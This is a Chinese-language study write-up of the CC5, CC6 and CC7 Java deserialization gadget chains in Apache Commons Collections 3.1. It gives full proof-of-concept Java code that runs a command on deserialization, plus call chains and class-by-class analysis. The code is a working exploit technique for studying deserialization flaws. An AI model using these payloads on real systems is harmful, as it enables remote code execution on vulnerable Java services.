# CC5

## 测试环境

- jdk1.7
- Commons Collections 3.1

## POC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class CC51 {
        public static Object generatePayload() throws Exception {
            ChainedTransformer Transformerchain = new ChainedTransformer(new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[] {
                            String.class, Class[].class }, new Object[] {
                            "getRuntime", new Class[0] }),
                    new InvokerTransformer("invoke", new Class[] {
                            Object.class, Object[].class }, new Object[] {
                            null, new Object[0] }),
                    new InvokerTransformer("exec",
                            new Class[] { String.class }, new Object[]{"calc"})});
            HashMap innermap = new HashMap();
            LazyMap map = (LazyMap)LazyMap.decorate(innermap,Transformerchain);
            TiedMapEntry tiedmap = new TiedMapEntry(map,123);
            BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
            Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
            val.setAccessible(true);
            val.set(poc,tiedmap);
            return poc;
        }
    public static void main(String[] args) throws Exception {
        payload2File(generatePayload(),"obj");
        payloadTest("obj");
    }
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

## 利用链

```
  ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

通过利用链其实可以看出来,CC5的后半段利用链和CC1的lazymap那条链后面段是一样的,都是调用LazyMap的get方法触发命令,这里我们主要看前面是如何调用到LazyMap.get()的;

## TiedMapEntry 


在toString方法中调用了getValue()方法,跟进去


调用了map.get方法,关于map在构造函数中赋值,map成员可控,接下来我们需要找哪里调用了toString方法

在cc5中使用了BadAttributeValueExpException这个类。

## BadAttributeValueExpException



在该类的readObject方法中,调用了valObj.toString();那么这个valObj是从哪里来的呢


可以看到获取了val成员的值赋值给了valObj,这里我们让val=TiedMapEntry对象即可

## 流程图


# CC6

## 测试环境

- jdk 1.7
- Commons Collections 3.1

## POC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CC61 {
    public static Object generatePayload() throws Exception {
        Transformer fakeTransformerransformer = new ChainedTransformer(new Transformer[]{});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[]{}}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{}}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, fakeTransformerransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "keykey");

        HashSet hashSet = new HashSet(1);
        hashSet.add(tiedMapEntry);
        lazyMap.remove("keykey");  //如果不加这个就无法弹出计算器

        //通过反射覆盖原本的iTransformers，防止序列化时在本地执行命令
        Field field = ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(fakeTransformerransformer, transformers);
        return hashSet;
    }

    public static void main(String[] args) throws Exception {
        payload2File(generatePayload(), "obj");
        payloadTest("obj");
    }

    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }

    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

## 利用链

```
java.io.ObjectInputStream.readObject()
            HashSet.readObject()
                HashMap.put()
                HashMap.hash()
                    TiedMapEntry.hashCode()
                    TiedMapEntry.getValue()
                        LazyMap.get()
                            ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

后面一段仍然是LazyMap.get(),主要还是看前半段

## TiedMapEntry


TiedMapEntry调用了getValue()


getValue()方法调用了map成员的get方法,这里map成员可控,我们设置为lazymap对象

接下来就需要找哪里触发了hashCode，cc6中使用的是HashMap#hash

## HashMap



而put方法调用了hash方法,并且我们可以可以将key作为hash方法的输入,接下来就还差一个入口了



## HashSet

ysoserial选择的是HashSet#readObject()



在hashmap#readObject方法中调用了map对象的put方法,map对象是在上面几排赋的值,这里有个判断语句,这判断语句挺好控制的,这里我们需要让map=new HashMap(其实为LinkedHashMap也不影响,LinkedHashMap继承于HashMap,也没有重写put方法和hash方法),然后就是关于我们传入的e;参数e是用readObject取出来的，那么对应的我们就看看writeObject怎么写的:


我们需要控制传入map的keySet返回结果来控制变量。

## 流程图



## P神版本

在上面的流程的最后一步中,我们其实找到一个readObject方法能调用HashMap#put或者HashMap#hash就行了,而HashMap是自带readObject方法的,



跟进去


这里直接调用了hash方法,key也可控。

## 一些其他点

这里为了避免本地调试时触发命令执⾏，构造LazyMap的时候先⽤了⼀个⼈畜⽆害的 fakeTransformerransformer 对象，等最后要⽣成Payload的时候，再把真正的 transformers 替换进去。(如果正常写应该也没啥问题)

但是如果去掉我们poc中的`lazyMap.remove("keykey");` Run的时候并不会弹出计算器,调试一下发现它并没有进入lazymap#get方法中的if语句,但是我们明明没有在lazyMap中加入"keykey"呀


这是应该是因为在调用hashSet#add时调用了hashMap的put方法,



HashMap的put⽅法中，也有调⽤到 hash(key)

这⾥就导致 LazyMap 这个利⽤链在这⾥被调⽤了⼀遍，因为我前⾯⽤了fakeTransformers ,所以此

时并没有触发命令执⾏,但实际上也对我们构造Payload产⽣了影响。

解决⽅法也很简单，只需要将keykey这个Key,再从outerMap中移除即可： lazyMap.remove("keykey") 

# CC7

## 测试环境

- jdk 1.8
- Commons Collections 3.1

## POC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.AbstractMapDecorator;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.AbstractMap;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC71 {

    public static void main(String[] args) throws IllegalAccessException, IOException, ClassNotFoundException, NoSuchFieldException {

        Transformer[] fakeTransformerransformer = new Transformer[]{};

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        //ChainedTransformer实例
        //先设置假的 Transformer 数组，防止生成时执行命令
        Transformer chainedTransformer = new ChainedTransformer(fakeTransformerransformer);

        //LazyMap实例
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2,chainedTransformer);
        lazyMap2.put("zZ", 1);


        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, "test");
        hashtable.put(lazyMap2, "test");


        //通过反射设置真的 ransformer 数组
        Field field = chainedTransformer.getClass().getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);

        //上面的 hashtable.put 会使得 lazyMap2 增加一个 yy=>yy，所以这里要移除
        lazyMap2.remove("yy");

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashtable);
        oos.flush();
        oos.close();

        //测试反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

}
```

## 利用链

```
Hashtable.readObject()
      Hashtable.reconstitutionPut()
            AbstractMapDecorator.equals()
                AbstractMap.equals()
                  LazyMap.get()
                    ChainedTransformer.transform()
                      ConstantTransformer.transform()
                        InvokerTransformer.transform()
                          …………
```

后面还是LazyMap.get()

## AbstractMap

equals方法中调用了m.get(key);这里m和key可控。但是因为AbstractMap是一个abstract类,在构造poc时只能找它的子类,而且没有重写该方法,在poc中选择的就是它的子类HashMap



## AbstractMapDecorator

Map可控。该类为lazpMap的父类



## Hashtable

reconstitutionPut方法调用e.key.equals,参数可控



readObject入口处也直接调用了reconstitutionPut方法,



## 流程图



其实但看这流程图我觉得还是有一点昏的,我上面其实也有很多地方没有说清楚,比如为什么e.key可控,因为我觉得这些配合poc一起看得话可能更容易理解

## 流程分析



首先我们这里是put了两次,在进入reconstitutionPut方法前,会有一个for循环,这里我们的Key和Value是使用readObject得到的,那我们得先去看一下writeObject方法



writeObject中


很容易看出,这里传递的实际上就是HashTable#put时添加进去的key和value。

当我们第一次进入reconstitutionPut方法时,tab数组是没有值的,所以无法进入for循环调用equals方法,tab[index]的赋值是在for循环的后面



当我们第二次进入reconstitutionPut方法时


我们的e.key是第一次put的值,key是第二次put的值。

之前在看利用链时,我就在想,为什么这里能直接调用AbstractMap.equals(),为什么还要去先调用AbstractMapDecorator.equals()呢


于是自己做了一个测试,我把第一次put的值设置为hashMap,想直接调用AbstractMap.equals(new LazyMap())



但是发现他第二次并没有如我们所愿进入for循环,原因时因为第一次传入hashMap时计算生成的index=0,而第二次传入lazyMap时生成的index=3,所以并不存在tab[3]。而两次put的都是lazymap的话,index计算出来都是等于3.这里看似e.key和key可控,但实际上还是有些限制的。


